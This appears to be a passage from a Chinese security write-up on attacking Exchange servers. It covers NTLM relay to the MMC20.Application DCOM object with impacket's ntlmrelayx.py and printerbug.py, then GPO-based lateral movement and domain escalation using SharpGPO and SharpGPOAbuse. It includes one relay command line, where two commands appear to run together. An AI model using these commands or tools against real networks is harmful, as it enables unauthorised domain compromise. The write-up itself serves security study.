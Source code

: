   

然后作者发现可以使用DCOM得MSRPC进行攻击

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133420.png)

选中的DCOM对象为

  

  * 

    
    
    MMC20.Application (49B2791A-B1AE-4C90-9B8E-E860BA07F89)

  

攻击链如下

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133421.png)

  

工具：

  

https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py

  

命令：

  

  *   * 

    
    
    ntlmrelayx.py -t dcom://exchange2 -smb2supportprinterbug.py domain/user:password@exchange1 attackaddress

  

横向移动、域提权

  

横向移动

  

作者给的图以及很明了了，有一个Exchange Trusted Subsystem组成员权限的前提下，便可以利用GPO实现对指定用户(域管除外)的rce。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133422.png)

工具：

  

https://github.com/Dliv3/SharpGPO

https://github.com/FSecureLABS/SharpGPOAbuse

  
